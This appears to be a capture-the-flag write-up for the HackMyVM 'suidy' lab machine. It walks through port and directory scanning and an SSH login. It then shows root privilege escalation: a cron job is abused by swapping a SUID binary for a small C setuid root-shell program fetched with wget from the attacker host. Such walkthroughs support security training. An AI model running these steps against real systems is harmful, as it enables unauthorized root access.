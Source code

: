 ```yaml
---
title: HackMyVM - suidy
description: My writeup on suidy box.
categories:
 - HackMyVM
tags: HackMyVM
---
```


![](https://i.imgur.com/vIkqVK9.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.5
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:43 EEST
Nmap scan report for undiscovered.thm (192.168.1.5)
Host is up (0.00042s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:3F:4E:95 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.15 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 21:44 EEST
Nmap scan report for undiscovered.thm (192.168.1.5)
Host is up (0.00044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 8a:cb:7e:8a:72:82:84:9a:11:43:61:15:c1:e6:32:0b (RSA)
|   256 7a:0e:b6:dd:8f:ee:a7:70:d9:b1:b5:6e:44:8f:c0:49 (ECDSA)
|_  256 80:18:e6:c7:01:0e:c6:6d:7d:f4:d2:9f:c9:d0:6f:4c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Site doesn't have a title (text/html).
```

Let's start the enumeration on port 80 with a `gobuster` scan:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html 
/index.html (Status: 200)
/robots.txt (Status: 200)
```

`/robots.txt` in the very end has a directory:

```
$ curl http://192.168.1.5/robots.txt
/hi
/....\..\.-\--.\.-\..\-.

..space..

/shehatesme
```

## Shell as theuser

This directory has a message:

```
She hates me because I FOUND THE REAL SECRET! I put in this directory a lot of .txt files. ONE of .txt files contains credentials like "theuser/thepass" to access to her system! All that you need is an small dict from Seclist! 
```

This is the tricky part, we can see the credentials already `theuser/thepass` so we can login in using SSH. :smile:

```
$ ssh theuser@$ip                                        s.
theuser@192.168.1.5's password: 

theuser@suidy:~$ whoami;id
theuser
uid=1000(theuser) gid=1000(theuser) grupos=1000(theuser),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

## Shell as root

Box name is `suidy` so let's search for SUID files:

```
$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsrwsr-x 1 root theuser 16704 sep 26 23:46 /home/suidy/suidyyyyy
-rwsr-xr-x 1 root root 63568 ene 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 34888 ene 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 51280 ene 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 84016 jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 54096 jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 63736 jul 27  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 44528 jul 27  2018 /usr/bin/chsh
-rwsr-xr-- 1 root messagebus 51184 jun  9  2019 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 ene 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

`/home/suidy/suidyyyyy` perfect! If we run it we get shell as suidy but after that nothing:

```
theuser@suidy:~$ /home/suidy/suidyyyyy
suidy@suidy:~$ whoami;id
suidy
uid=1001(suidy) gid=1000(theuser) grupos=1000(theuser),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

Here i got stuck for a long time & i decided to run `pspy`:

```
suidy@suidy:/tmp$ wget -q 192.168.1.14/pspy64
suidy@suidy:/tmp$ chmod +x pspy64
suidy@suidy:/tmp$ ./pspy64 -p -i 1000
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

..data.. 

2020/10/01 20:56:01 CMD: UID=0    PID=653    | /bin/sh -c sh /root/timer.sh 
2020/10/01 20:56:01 CMD: UID=0    PID=654    | sh /root/timer.sh 
```

There is a cronjob that runs this file as root, after some experiments i found out that this file gives SUID to `/home/suidy/suidyyyyy`. So let's make a SUID C shell, compile it and transfer it on the box to replace `/home/suidy/suidyyyyy`:

```C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
setuid(0); setgid(0); system("/bin/bash");
}
```

```
$ touch suid.c
$ nano suid.c 
$ gcc suid.c -o suid
```

Let's move it on the target system now:

```
theuser@suidy:/home/suidy$ wget -q 192.168.1.14/suid -O suidyyyyy
theuser@suidy:/home/suidy$ ls -la suidyyyyy 
-rwxrwxr-x 1 root theuser 16704 oct  1 21:01 suidyyyyy
theuser@suidy:/home/suidy$ ls -la suidyyyyy 
-rwsrwsr-x 1 root theuser 16704 oct  1 21:01 suidyyyyy
theuser@suidy:/home/suidy$ ./suidyyyyy 
root@suidy:/home/suidy# whoami;id
root
uid=0(root) gid=0(root) grupos=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(theuser)
```

Let's read the flags:

```
root@suidy:/root# cat root.txt | cut -c1-5
HMV00
root@suidy:/root# cat /home/theuser/user.txt | cut -c1-5
HMV23
```

Tricky box! :smile:
